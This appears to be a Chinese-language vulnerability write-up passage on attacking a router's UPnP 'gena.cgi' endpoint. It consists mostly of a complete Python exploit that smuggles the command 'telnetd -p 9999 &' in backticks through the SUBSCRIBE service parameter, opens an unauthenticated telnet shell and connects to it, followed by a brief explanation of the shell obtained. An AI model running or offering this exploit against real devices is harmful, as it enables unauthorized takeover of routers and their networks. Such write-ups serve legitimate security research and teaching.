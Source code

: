 

## 漏洞利用

### EXP

```python
import socket
import os
from time import sleep
# Exploit By Miguel Mendez & Pablo Pollanco
def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}').format(host=server, port=port)
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    sleep(1)
    print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    results = con.recv(4096)
    sleep(1)
    print('[*] Running Telnetd Service')
    sleep(1)
    print('[*] Opening Telnet Connection\n')
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
serverInput = raw_input('IP Router: ')
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

### EXP讲解

我们注意到，其固件启动了telnet服务。我们可以利用反引号 ,将`telnet -p 9999 &` 包裹，并传入变量$shell_file让其开放9999端口，随后本机连接即可。

运行脚本后，我们可以直接拿到`shell`,同时用`nmap`扫描ip可以看到9999端口确实已经开放了。
